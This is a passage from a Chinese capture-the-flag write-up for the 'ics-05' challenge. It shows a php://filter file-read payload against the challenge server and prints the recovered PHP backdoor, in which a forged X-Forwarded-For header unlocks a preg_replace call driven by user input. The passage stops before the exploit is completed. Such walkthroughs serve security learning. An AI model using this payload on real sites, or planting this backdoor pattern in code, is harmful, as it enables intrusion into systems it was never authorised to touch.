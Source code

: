 
## 0x02 ics-05

XCTF 4th-CyberEarth 其他破坏者会利用工控云管理系统设备维护中心的后门入侵系统

![](/assets/images/move/20190913234217.png)

在**设备维护中心**观察到 URL 如下:

```bash
http://111.198.29.45:31588/index.php?page=index
```


测试 `php://filter` 读取文件：


```bash
http://111.198.29.45:31588/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

在读取到的代码中观察到关键片段如下:

```php
<?php
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {
    echo "<br >Welcome My Admin ! <br >";
    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];
    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }
}
?>
```
